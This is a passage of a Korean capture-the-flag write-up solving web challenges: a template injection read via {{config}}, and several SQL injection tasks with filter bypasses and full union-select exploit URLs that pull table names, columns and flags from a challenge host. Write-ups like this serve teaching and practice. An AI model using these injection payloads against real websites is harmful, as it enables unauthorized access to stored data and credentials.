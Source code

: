 **Server Side Template Injection**이 발생하며 단순하게 __{{config}}__로 플래그를 읽는 것이 가능하다.

..... RINT_REGULAR': False, 'TESTING': False, 'flag': 'flag{SSSSSTI}', 'PERMANENT_SESSION_LIFETIME .....



__플래그 : flag{SSSSSTI}__



### SQQQQQQLLLLLLLLLlll (250)

일단 공백 필터링은 /**/로 우회할 수 있고, id만 출력하는데 pw as id로 이를 바꿀 수 있다.

union sql injection + order by로 id가 flag인 것을 알아내고 비밀번호 읽으면 된다.

id는 이전 문제처럼 이스케이프 처리했고 pw는 아래처럼 했다.

```
union/**/select/**/pw/**/as/**/id,1/**/from/**/user/**/order/**/by/**/1#
```



__플래그 : flag{uni0n0n0n0nnnnnnn}__



### guestbook (250)

글 인덱싱할 때 ```?no=1 union select```  식으로 union sqli가 가능해서 table, column명 따고 플래그 읽을 수 있다.



```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%20table_name%20from%20information_schema.tables;#
```

table : fl4g_flag_flag

```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%20column_name%20from%20information_schema.columns;#
```

column : flag_hida

```
http://test.c2w2m2.com/guestbook/read.php?no=25%20union%20select%201,%202,%20flag_hida,%204,%205%20from%20fl4g_flag_flag;#
```



**플래그 : flag{f1ag_uni0n_based_sqli_hahahahahaha}**



### Advance sqlinjection (300)

알파벳, 숫자가 preg_match로 막혀있는데 특수기호로만 이렇게 저렇게 참 되게하면 된다.

``` select * from user where id='\' and pw='|| !('@' ^ '@')#' ```

이모티콘 같다



***플래그 : flag{advance_sqlinjection_haha}**



## Rev

### WTF (50)

```